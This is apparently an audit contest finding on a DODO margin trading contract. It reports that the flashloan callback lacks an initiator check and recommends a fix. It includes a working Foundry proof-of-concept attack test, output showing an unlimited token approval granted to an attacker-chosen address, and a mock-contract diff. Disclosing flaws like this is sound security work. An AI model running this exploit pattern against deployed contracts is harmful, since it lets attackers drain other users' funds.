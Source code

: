 carrotsmuggler

high

# All funds at risk due to insufficient checks in flashloan callback

## Summary

Funds can be stolen from another user's account due to insufficient checks during flashloan callback.

## Vulnerability Detail

The contract has functionality to deposit and withdraw funds into aave, and it also has the functionality to transfer funds to the contract, but not deposit them. This is demonstrated by the existence of the `margin` flag, which suggests that if margin flag is false, the contract changes it's own balance, showing that the contract is meant to control some funds.

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L203-L214

The issue here is that any funds in the contract can be stolen by another user. This is due to how the flashloan callback is programmed.

In the flashloan callback, the `executeOperation` function, the contract hands out some approvals to the passed router address, does some external calls, and carries out some repay/withdraws. But this function never checks who initiated the flashloan in the first place. Thus if a random user initiates an aave flashloan, and sends the contract address of this contract as the `receiverAddress`, then the lending pool actually calls the `executeOperation` of this contract, and there aer no checks to stop it.

In the aave contract, It takes a parameter param, which has another parameter called `receiverAddress`, which is the target for the flashloan callback.

```solidity
function executeFlashLoan(
    mapping(address => DataTypes.ReserveData) storage reservesData,
    mapping(uint256 => address) storage reservesList,
    mapping(uint8 => DataTypes.EModeCategory) storage eModeCategories,
    DataTypes.UserConfigurationMap storage userConfig,
    DataTypes.FlashloanParams memory params
  ) external {
    // ...
    vars.receiver = IFlashLoanReceiver(params.receiverAddress); //@audit receiver sent as parameter
    // ...
    require( //@audit receiver is target of flashloan callback
      vars.receiver.executeOperation(
        params.assets,
        params.amounts,
        vars.totalPremiums,
        msg.sender,
        params.params
      ),
      Errors.INVALID_FLASHLOAN_EXECUTOR_RETURN
    );
```

Thus if a malicious contract A initiates the flashloan, but it passes the address of contract B, which is a margin trading contract, as the callback address, then all checks will pass and the contract B (victim) will carry out the `executeOperation` function. This is because the only access control in the callback function is `onlyLendingPool`, which only makes sure that the msg.sender is the lending pool contract, which in this case, it is!

In `executeOperation`, the contract gives unlimited approval to an address passed as a parameter, thus the attacker can pass there any address, and get unlimited approvals for all tokens, and later drain the contract.

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L264-L272

## Impact

Draining of margin trading contract's assets.

## Code Snippet

The attack can be carried out as shown in the POC attached below. It follows the following steps:

1. Normal setup and funding by user1 (victim). This part is copied from the test `testExecuteFlashLoansOpen`
2. user2 (Attacker) initiates a flashloan to the lending pool and passes the margin contract address as the receiver.
3. The allowance given to the dodoApprove contract is checked before and after step 2. It is 0 before, and 2^256-1 after. The attacker can always change the dodoApprove address and instead pass the address of some other malicious contract, which can then drain the funds from the victim's account. The dodoApprove address is used here for simplicity.

```solidity
function testAttack() public {
    faucet(address(dai), user1, 100 ether);
    faucetWeth(address(lendingPoolV2), 10000 ether);
    uint256 depositAmt = 100 ether;
    uint256 borrowAmt = 1 ether;
    vm.startPrank(user1);
    address _marginTrading = createMarginTradingContract();
    bytes memory swapParams = getSwapCalldata(
        address(weth),
        address(dai),
        borrowAmt
    );
    bytes memory executeParams;
    {
        address[] memory _withdrawAssets = new address[](1);
        uint256[] memory _withdrawAmounts = new uint256[](1);
        uint256[] memory _rateMode = new uint256[](1);
        address[] memory _debtTokens = new address[](1);
        address[] memory _swapApproveToken = new address[](1);
        _swapApproveToken[0] = address(weth);
        address[] memory _tradeAssets = new address[](1);
        _tradeAssets[0] = address(dai);
        executeParams = encodeExecuteParams(
            1,
            address(router),
            address(dodoApprove),
            _swapApproveToken,
            swapParams,
            _tradeAssets,
            _withdrawAssets,
            _withdrawAmounts,
            _rateMode,
            _debtTokens
        );
    }
    address[] memory _assets = new address[](1);
    _assets[0] = address(weth);
    uint256[] memory _amounts = new uint256[](1);
    _amounts[0] = borrowAmt;
    uint256[] memory _modes = new uint256[](1);
    _modes[0] = 1;
    address _mainToken = address(weth);
    marginTradingFactory.depositMarginTradingERC20(
        _marginTrading,
        address(dai),
        depositAmt,
        true,
        1
    );
    vm.stopPrank();

    // USER 2 ATTACKING USER 1's CONTRACT
    vm.startPrank(user2);
    // check allowance
    uint256 allowanceBefore = weth.allowance(
        _marginTrading,
        address(dodoApprove)
    );
    emit log_named_uint("allowanceBefore", allowanceBefore);
    lendingPoolV2.flashLoan(
        _marginTrading,
        _assets,
        _amounts,
        _modes,
        _marginTrading,
        executeParams,
        0
    );
    uint256 allowanceAfter = weth.allowance(
        _marginTrading,
        address(dodoApprove)
    );
    emit log_named_uint("allowanceAfter", allowanceAfter);
}
```

The output in the terminal shows:

```bash
Running 1 test for test/marginTrading/MarginTrading.t.sol:MarginTradingTest
[PASS] testAttack() (gas: 544159)
Logs:
  allowanceBefore: 0
  allowanceAfter: 115792089237316195423570985008687907853269984665640564039457584007913129639935

Test result: ok. 1 passed; 0 failed; finished in 5.92ms
```

This POC shows that even though user2 does not own the margin contract, they can initiate a transaction which changes the allowance to some external contract, which can be malicious.

To run this POC, a small change needs to be done on the mock lending pool contract. This is because unlike the actual aave contracts, the mock contracts callback on the `msg.sender` and not on the passed address.

```diff
diff --git a/dodo-margin-trading-contracts/contracts/mock/MockLendingPoolV2.sol b/dodo-margin-trading-contracts/contracts/mock/MockLendingPoolV2.sol
index 8f0d425..d8b4fd4 100644
--- a/dodo-margin-trading-contracts/contracts/mock/MockLendingPoolV2.sol
+++ b/dodo-margin-trading-contracts/contracts/mock/MockLendingPoolV2.sol
@@ -126,7 +126,7 @@ contract MockLendingPoolV2 {
         }
         MockERC20(assets[0]).transfer(onBehalfOf, amounts[0]);

-        IFlashLoanReceiver(msg.sender).executeOperation(assets, amounts, _premiums, msg.sender, params);
+        IFlashLoanReceiver(receiverAddress).executeOperation(assets, amounts, _premiums, msg.sender, params);

         if (modes[0] == 0) {
             MockERC20(assets[0]).transferFrom(onBehalfOf, address(this), borrowAmounts);
```

## Tool used

Foundry

## Recommendation

Check the `_initiator` address which is also passed into the `executeOperation` function. Make sure the initiator is the same contract.

```solidity
require(msg.sender == _initiator, "INVALID_INITIATOR");
```
